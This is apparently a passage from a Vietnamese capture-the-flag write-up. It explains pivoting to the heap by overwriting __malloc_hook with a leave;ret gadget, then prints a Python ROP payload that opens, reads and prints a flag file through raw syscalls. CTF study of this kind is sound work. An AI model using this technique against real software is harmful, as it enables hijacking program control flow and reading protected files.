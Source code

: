 ![](../img/2020-11-14-17-03-11.png)  

Tại đây, ta thấy `Rbp` mang giá trị là kích thước truyền vào của hàm `malloc`. Do đó, nếu ta tiến hành ghi lên `__malloc_hook= leave;ret;` và `size = heap_addr` thì sau đó chương trình sẽ tiến hành rop trên heap :v   

Rop thì mình copy nguyên của người ta :v  

```python
payload = b'/home/hacmao/flag'.ljust(0x20, b'\x00')

# ROP to open the flag file
# Flag file's file descriptor will be 3
payload += p64(pop_rdi) + p64(heap+0xfe0 - 0x10)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rax) + p64(2)
payload += p64(syscall)

# ROP to read the flag file's contents right into heapbase
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi) + p64(heap)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)

# ROP to write the contents of heapbase right into stdout
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi) + p64(heap)
payload += p64(pop_rdx) + p64(0x100)
payload += p64(pop_rax) + p64(1)
payload += p64(syscall)

```  
